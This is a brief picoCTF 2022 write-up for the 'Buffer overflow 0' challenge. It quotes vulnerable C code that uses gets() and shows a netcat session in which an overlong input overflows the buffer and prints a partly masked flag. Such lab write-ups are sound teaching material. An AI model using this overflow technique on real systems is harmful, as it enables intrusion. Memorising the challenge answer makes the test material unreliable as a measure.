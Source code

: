 ```yaml
---
title: "pico22/pwn: Buffer overflow 0"
date: 2022-04-05 12:16:08
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [Buffer overflow 0]."
permalink: ctfs/pico22/pwn/buffer-overflow-0/
thumbnail: https://files.catbox.moe/5udwod.png
---
```

## 📜 Description

Smash the stack \
Let's start off simple, can you overflow the correct buffer? The program is available  [here](https://artifacts.picoctf.net/c/523/vuln). You can view source  [here](https://artifacts.picoctf.net/c/523/vuln.c). And connect with it using:`nc saturn.picoctf.net 64712`

---

## 🔍 Detailed Solution

Let's analyze this `.c` file we have as reference.

```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
```

We see that the `gets()` function is called. This function is really, really bad (in addition to being deprecated) as it will write the user's input to the stack without regard to its length, meaning a user's input can exceed its allocated space. We should be able to trigger the flag print by simply inputting a string that is longer than the specified length of 16 in the `vuln` function:

```text
# nc saturn.picoctf.net 64712
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
